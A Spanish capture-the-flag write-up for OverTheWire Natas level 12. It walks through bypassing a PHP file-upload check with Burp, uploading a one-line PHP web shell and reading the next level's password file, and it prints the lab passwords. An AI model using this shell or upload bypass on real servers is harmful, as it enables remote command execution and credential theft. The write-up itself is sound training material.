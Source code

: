 #Natas Level 11 → Level 12

Username: natas12

URL:      http://natas12.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas12.natas.labs.overthewire.org** 
- **Usuario    : natas12**
- **Contraseña : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3**

La contraseña la hemos sacado del nivel anterior.

Entramos a la prueba y nos muestra un mensaje en el que nos dice que podemos subir un fichero **JPEG** pero con un **límite máximo** de **1KB**

```html
Choose a JPEG to upload (max 1KB):
```

Vamos a ver que vemos en el código fuente de la prueba:

```php
<body> 
<h1>natas12</h1> 
<div id="content"> 
<?  

function genRandomString() 
{ 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) 
    { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 
    return $string; 
} 

function makeRandomPath($dir, $ext) 
{ 
    do 
    { 
        $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) 
{ 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

  if(array_key_exists("filename", $_POST)) 
  { 
      $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 
  
          if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) 
          { 
            echo "File is too big"; 
          } 
          else 
          { 
              if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) 
              { 
                  echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
              } 
              else
              { 
                  echo "There was an error uploading the file, please try again!"; 
              } 
          } 
  } 
  else 
  { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
    <input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
    <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
    <input name="uploadedfile" type="file" /><br /> 
    <input type="submit" value="Upload File" /> 
</form> 

<? 
  } 
?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
```

Intentamos subir un fichero pero nos da un error probablemente relacionado con el tamaño del fichero (>1KB):

```html
There was an error uploading the file, please try again!
```

Parece que esta prueba trata de subir un fichero, en principio un **JPG**, que nos permita obtener la contraseña del reto. 

También hemos pensado que podemos **engañar** al sistema subiendo un fichero **php** con terminación en **JPG**. 

Algo así como esto:

```php
phpShell.php.jpg
```

El programa solamente mirará si la extensión del fichero es **JPG** y lo subirá la servidor.

Programamos una **Shell** en **PHP** muy sencilla que nos permitirá lanzar comandos en el servidor

```php
<?php
 passthru($_GET['cmd']);  
?>
```

Lo guardamos como **phpShell.php.jpg** con un tamaño de **35bytes** y lo intentamos subir. 

Con esto estaríamos pasando el filtro del **Tamaño* y el filtro de la **Extensión**

Pulsamos el botón de subir y nos sale este mensaje:

```html
The file upload/28plb5h3bh.jpg has been uploaded
```

Accedemos a la dirección y efectivamente tenemos nuestro objeto subido. Le intentamos cambiar la extensión a **.php** e introducirle algun comando, pero no responde.

```html
http://natas12.natas.labs.overthewire.org/upload/28plb5h3bh.jpg?cmd=ls 
```

ni tampoco con

```html
http://natas12.natas.labs.overthewire.org/upload/28plb5h3bh.php?cmd=ls 
```

Volvemos a leer el código fuente y nos damos cuenta que las funciones **makeRandomPathFromFilename** y **makeRandomPath** eliminan todo el texto anterior a la extensión **jpg**

Tenemos que conseguir **interceptar** el contenido que se envia y cambiarle la extensión a **.php** una vez que ha pasado el filtro de comprobación **jpg**

Para ello vamos a utilizar la herramienta **BURP** que podemos encontrar en la distro de Linux para **Pentesting** - **Kali Linux**

Configuramos el **proxy** del navegador apuntando al **localhost:8080** donde estará **BURP** escuchando para que luego podamos modificar los datos a nuestro antojo.

Subimos el fichero **phpShell.php.jpg** y luego lo cambiaremos luego con el **BURP**

Obtenemos lo siguiente:

```html
POST /index.php HTTP/1.1
Host: natas12.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas12.natas.labs.overthewire.org/
Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------17458871318756377591816066944
Content-Length: 515

-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="filename"

ujofljdn2f.jpg
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="uploadedfile"; filename="phpShell.php"
Content-Type: application/x-php

<?
passthru($GET_['cmd']);
?>
-----------------------------17458871318756377591816066944--
```

Interceptamos el tráfico y modificamos el valor de **filename**:
- ujofljdn2f.jpg -> phpShell.php

quedando:

```html
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="filename"

phpShell.php
```

Le damos a **Forward** en **BURP** y nos indica que hemos **subido correctamente** el fichero a la siguiente dirección

```html
The file upload/ujofljdn2f.php has been uploaded
```

**¡BIEN!** ¡Hemos podido saltarnos el filtro y subido una **Shell** al Servidor! :smile:

Entramos en la **URL** que nos han proporcionado y nos muestra este mensaje:

```php
Notice: Undefined variable: GET_ in /var/www/natas/natas12/upload/ujofljdn2f.php on line 2
Warning: passthru(): Cannot execute a blank command in /var/www/natas/natas12/upload/ujofljdn2f.php on line 2
```

Nos dice que no puede **ejecutar** un **comando en blanco**, por lo tanto **si** podemos enviarle comandos a través de la **URL**! :smile:

Montamos la **URL** y le pasamos los comandos con la opción de:
```html
?cmd=<comando>
````

quedando la URL completa así:

```html
http://natas12.natas.labs.overthewire.org/upload/ujofljdn2f.php?cmd=<comando>
```

Sabemos que la contraseña estará en la siguiente ubicación, por los niveles anteriores:

```bash
cat /etc/natas_webpass/natas12
```

Por alguna razón no me deja ejecutar los comandos que le paso desde el navegador así que modifico directamente el código para que me muestre la contraseña del siguiente **nivel13**.

```php
<?php
 passthru("cat /etc/natas_webpass/natas13");  
?>
```

Accedemos a la página y nos devuelve la contraseña del siguiente nivel! :smile:

**FLAG** = {jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY}


 












 




